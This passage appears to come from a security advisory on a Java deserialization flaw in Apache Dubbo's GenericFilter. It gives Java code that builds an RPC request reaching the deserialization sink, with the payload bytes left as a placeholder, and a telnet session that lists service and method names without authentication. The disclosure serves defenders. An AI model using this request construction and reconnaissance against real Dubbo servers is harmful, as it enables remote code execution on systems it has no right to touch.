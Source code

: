 <p>For example, the following code will prepare an RPC request which will trigger the java deserialization sink:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>    // 1.dubboVersion
    out.writeString("2.7.8");
    // 2.path
    out.writeString("org.apache.dubbo.samples.basic.api.DemoService");
    // 3.version
    out.writeString("");
    // 4.methodName
    out.writeString("$invoke");
    // 5.methodDesc
    out.writeString("Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;");
    // 6.paramsObject
    out.writeString("sayHello");
    out.writeObject(new String[] {"java.lang.String"});
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(baos);
    oos.writeObject(&lt;DESERIALIZATION PAYLOAD BYTE[]&gt;);
    out.writeObject(new Object[] {baos.toByteArray()});
    // 7.map
    HashMap map = new HashMap();
    map.put("generic", "nativejava");
    out.writeObject(map);
</code></pre></div></div>

<p>Note that to successfully exploit this issue, an attacker needs to know a service and method name to reach the <code class="language-plaintext highlighter-rouge">GenericFilter</code> code (eg: <code class="language-plaintext highlighter-rouge">org.apache.dubbo.samples.basic.api.DemoService</code> and <code class="language-plaintext highlighter-rouge">sayHello</code>).</p>

<p>These names are trivial to get by connecting to the Dubbo port and issuing an unauthenticated <code class="language-plaintext highlighter-rouge">ls</code> command:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>❯ telnet localhost 20880
Trying ::1...
Connected to localhost.
Escape character is '^]'.
ls
PROVIDER:
org.apache.dubbo.samples.basic.api.DemoService

dubbo&gt;cd org.apache.dubbo.samples.basic.api.DemoService
Used the org.apache.dubbo.samples.basic.api.DemoService as default.
You can cancel default service by command: cd /
dubbo&gt;ls
Use default service org.apache.dubbo.samples.basic.api.DemoService.
org.apache.dubbo.samples.basic.api.DemoService (as provider):
        sayHello

dubbo&gt;
</code></pre></div></div>

